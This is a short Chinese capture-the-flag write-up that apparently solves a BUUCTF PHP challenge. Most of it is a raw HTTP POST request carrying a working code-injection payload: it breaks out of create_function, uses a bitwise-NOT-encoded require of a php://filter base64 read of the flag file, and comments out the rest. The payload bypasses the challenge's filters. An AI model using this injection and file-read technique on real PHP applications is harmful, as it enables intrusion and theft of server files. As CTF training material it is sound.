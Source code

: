 说flag在rea1fl4g.php。接下来按照wp所说，require(rea1fl4g.php)后再用get_defined_vars输出所有变量，会发现flag是假的。于是大佬用取反绕过后拿到了真正的flag。使用require是因为inc和单双引号都被过滤了。还有另一种[解法](https://www.shawroot.cc/815.html#0x05_create_function_dai_ma_zhu_ru)，利用base64decode获取文件名，无需加双引号因为php会自动把没加双引号的内容看作字符串。提供取反解法。

```
POST /1nD3x.php?%64%65%62%75=%61%71%75%61_is_%63%75%74%65%0A&file=data://text/plain,%64%65%62%75_%64%65%62%75_%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%61%72%67]=;}require(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f));//&%66%6c%61%67[%63%6f%64%65]=create_function HTTP/1.1
Host: 88734034-7928-4073-b847-9974a354e8f5.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

debu=1&file=1
```

base64解码得到的内容即可获得flag。
